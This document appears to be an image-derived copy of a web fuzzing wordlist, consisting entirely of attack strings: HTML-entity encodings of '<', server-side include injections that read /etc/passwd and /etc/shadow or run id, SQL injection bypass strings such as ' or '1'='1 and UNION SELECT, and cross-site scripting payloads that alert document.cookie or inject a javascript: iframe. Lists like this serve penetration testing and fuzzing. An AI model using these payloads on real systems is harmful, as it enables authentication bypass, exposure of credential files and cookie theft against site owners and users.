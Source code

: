 &#X3c
&#X3c;
&#x000003C
&#x000003C;
&#x000003c
&#x000003c;
&#x00003C
&#x00003C;
&#x00003c
&#x00003c;
&#x0003C
&#x0003C;
&#x0003c
&#x0003c;
&#x003C
&#x003C;
&#x003c
&#x003c;
&#x03C
&#x03C;
&#x03c
&#x03c;
&#x3C
&#x3C;
&#x3c
&#x3c;
&LT
&LT;
&apos;
&apos;%20OR
&id
&lt
&lt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
&lt;&gt;&quot;'%;)(&amp;+
&ltscript&gtalert(document.cookie);&ltscript&gtalert
&ltscript&gtalert(document.cookie);</script>
&quot;;id&quot;
'
' (select top 1
' --
' ;
' UNION ALL SELECT
' UNION SELECT
' or ''='
' or '1'='1
' or '1'='1'--
' or 'x'='x
' or (EXISTS)
' or 0=0 #
' or 0=0 --
' or 1 in (@@version)--
' or 1=1 or ''='
' or 1=1--
' or a=a--
' or uid like '%
' or uname like '%
' or user like '%
' or userid like '%
' or username like '%
'%20or%201=1
'%3CIFRAME%20SRC=javascript:alert(%2527XSS%2527)%3E%3C/IFRAME%3E